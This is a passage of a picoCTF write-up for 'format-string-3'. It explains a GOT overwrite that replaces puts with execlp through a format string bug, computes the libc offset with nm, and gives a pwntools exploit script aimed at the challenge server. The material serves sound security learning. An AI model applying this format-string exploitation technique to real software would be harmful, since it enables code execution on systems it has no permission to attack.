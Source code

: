 How can we call `execlp` however?

The last line of in main calls `puts(normal_string)` and prints the **"/bin/sh"**.  
`puts` is a function in libc, meaning the above steps to resolve its address take place.  
We can **change** its entry, `puts@got.plt`, in GOT to the address of `execlp`.

Similarly to the previous challenge, **format string 2**,  we can change a value using the string format vulnerability.

What we need to do now, is find the **offset** of `execlp` to `setvbuf`, the address given to us, to be able to **calculate** its address when we launch the program.

Using `nm` we can see the **offset** of the function which will be **loaded** by the linker at runtime.

```
nm -D libc.so.6| grep ' setvbuf' 
000000000007a3f0 W setvbuf@@GLIBC_2.2.5

nm -D libc.so.6| grep ' execlp'
00000000000da830 T execlp@@GLIBC_2.2.5
```

Their **difference** is **0x60440**.

Now, I will use a **Python** script using `pwntools`, similar to the one in the previous challenge, to easily **construct** the payload.

### Script
```python
from pwn import *

exe = context.binary = ELF('./format-string-3', checksec=False)
target_addr = 0x404018
value_to_write = 0x60440

conn = remote('rhea.picoctf.net', 63152)

# Calculate argument offset
def find_offset():
   payload=b"AAAA"
   payload += b'%p.' * 38
   print(conn.recvline())
   print(conn.recvline())
   conn.sendline(payload)
   print(conn.recvline())

def get_address(line):
   tokens=line.split()
   address=tokens[-1]
   return int(address,16)

def send_payload():
   global value_to_write
   
   offset = 38
   print(conn.recvline())
   line=conn.recvline()
   get_address(line)

   setvbuf_addr=get_address(line)
   value_to_write+=setvbuf_addr
   print(hex(value_to_write))
   payload = fmtstr_payload(offset, {target_addr: value_to_write},write_size='byte')
   print(payload)
   
   conn.sendline(payload)
```